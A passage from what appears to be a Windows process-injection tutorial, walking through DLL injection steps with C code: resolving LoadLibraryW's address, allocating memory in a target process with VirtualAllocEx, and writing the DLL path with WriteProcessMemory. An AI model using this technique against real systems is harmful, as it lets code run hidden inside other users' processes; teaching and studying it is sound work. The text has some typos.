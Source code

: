 ```c
}
```

With this function we are have done steps 1 and 2 from the process (Identifying a process and obtaining a handler: `hProcess`)

### Steps 3, 4 and 5: “Allocate Memory Space on the remote process”, “Write the DLL Path in the new memory space” and “Create a remote thread”

Now, in order to inject the DLL, we will need to allocate memory and write the dll path there so the new thread can load it (steps 3, 4 and 5).

To achieve this we will create a function that takes the process handler and the DLL name as entry arguments.   

In the “local loading” example we used `LoadLibraryA` to load the DLL. However, since we don’t want to load the DLL in our process, we can’t directly use it. What we will do is load address of the function to a remotely created thread in the target process, passing the DLL name as a parameter. 

This is because Windows guarantees that all the core DLLs get loaded in the same spot *in the same boot session*. This means every time you boot your computer, and you check where `Kernell32.dll`
 is loaded in a process, it will be at the same location within any  other running process. That goes the same for any functions inside `Kernell32.dll`, such as `LoadLibrary`.

We will use the `GetProcAddress` function to get that address. 

```c
LPVOID		pLoadLibraryW = NULL;
pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
	if (pLoadLibraryW == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

```

Next, to allocate the memory in the remote process we will use the `VirtualAllocEx` function. We need to specify the size of space to allocate: 

```c
//Step 3: Allocate Memory Space
pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pAddress == NULL) {
	printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
	bSTATE = FALSE; goto _EndOfFunction;
}
```

Now that we have allocated the memory, we will write the DLL name using the `WritePRoccessMemory` function, starting at the `pAddress` that we just obtained. 

```c
SIZE_T lpNumberOfBytesWritten = NULL;
DWORD		dwSizeToWrite = lstrlenW(DllName) * sizeof(WCHAR);
//Step 4: Write DllName (Path) to the other process memory
if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite) {
	printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
	bSTATE = FALSE; goto _EndOfFunction;
}
```
